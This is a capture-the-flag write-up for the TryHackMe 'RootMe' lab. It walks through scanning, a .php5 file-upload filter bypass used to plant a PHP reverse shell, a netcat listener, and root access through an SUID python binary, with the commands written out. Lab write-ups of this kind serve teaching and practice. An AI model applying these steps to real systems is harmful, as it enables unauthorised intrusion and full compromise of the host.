 # RootMe Writeup (TryHackMe)

## Enumeration

Scanned the target using:

```bash
sudo nmap <target> -sS -T4 -A -oN init_scan
```

![2025-05-07_12-07](https://github.com/user-attachments/assets/3b8590c3-3019-4e72-bc2a-8d6d20ba7774)

Open ports: `22`, `80`

## Web Enumeration

Used Gobuster to look for hidden directories:

```bash
gobuster dir -u http://<target-ip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -q
```

![2025-05-07_12-12](https://github.com/user-attachments/assets/b2f7b77d-86ab-4e40-be99-1cc47f85e780)

Found `/uploads` and `/panel`.

## File Upload Exploit

The `/panel` directory allowed uploading files, accessible later via `/uploads`.

![2025-05-07_12-14_1](https://github.com/user-attachments/assets/cbcdef1f-4988-45d3-8263-a85ec343143e)
![2025-05-07_12-14](https://github.com/user-attachments/assets/1d9c409e-424e-438a-a575-7afc3eeb6569)

Tried uploading a PHP reverse shell. It rejected `.php`, `.php.gif`, and `.php.jpg` due to image validation errors.

![2025-05-07_12-21](https://github.com/user-attachments/assets/f10ee265-453d-4bba-9116-ea6f09be5b42)
![2025-05-07_12-50](https://github.com/user-attachments/assets/f6fbbfc3-1821-4635-aad6-9ee591a1ca4c)

Found `.php5` as a bypass method, and it worked. Uploaded the reverse shell as `.php5`, gained reverse shell.

![2025-05-07_13-00](https://github.com/user-attachments/assets/ced59dd5-b435-4f60-b81e-6e1b88068689)
![2025-05-07_12-58](https://github.com/user-attachments/assets/18b90b5b-bfd3-44b3-a35a-8a39d19a4f3f)

Set up Netcat listener:

```bash
nc -lvnp 7777
```

![2025-05-07_13-01](https://github.com/user-attachments/assets/2dc89d7d-4752-44e6-a17f-aaec10a2ca6f)

Upgraded shell using Python:

```bash
which python
which python3
python -c 'import pty; pty.spawn("/bin/bash")'
```

![2025-05-07_13-03](https://github.com/user-attachments/assets/98a656b6-e3a2-4602-a1a8-b5c90bdf84bb)

## User Flag

Located the user flag:

```bash
find / -type f -name user.txt 2>/dev/null
```

![2025-05-07_13-09](https://github.com/user-attachments/assets/2360d452-ca6f-4f08-9713-05fed3668721)

Found at: `/var/www/user.txt`

## Privilege Escalation

Searched for SUID binaries:

```bash
find / -type f -perm -04000 2>/dev/null
```

![2025-05-07_13-12](https://github.com/user-attachments/assets/16c9ae50-fcdb-4204-bb81-f6f3e6da1cba)

Found `/usr/bin/python` with SUID set.

Used GTFOBins trick:

![2025-05-07_13-13](https://github.com/user-attachments/assets/74f94857-4ef3-4925-be3d-f2accd3ab6b7)

```bash
python -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

![2025-05-07_13-14](https://github.com/user-attachments/assets/64f56252-548d-467c-b596-8ce1a922af1a)

Got root shell.

Located the root flag:

```bash
find / -type f -name root.txt 2>/dev/null
```

![2025-05-07_13-15](https://github.com/user-attachments/assets/b3cfa837-37fe-4be0-b26d-12d610b6088f)

Found at: `/root/root.txt`

## Conclusion

![2025-05-07_13-15_1](https://github.com/user-attachments/assets/9cdf2f15-332a-4895-84ae-3b1b44b24085)

This challenge covered file upload vulnerabilities, reverse shell techniques, and classic SUID exploitation.

* Found hidden directories with Gobuster
* Bypassed file upload restrictions with `.php5`
* Used Python SUID binary for root escalation

A solid exercise in understanding how insecure file upload mechanisms and misconfigured SUID binaries can be leveraged for full system compromise.
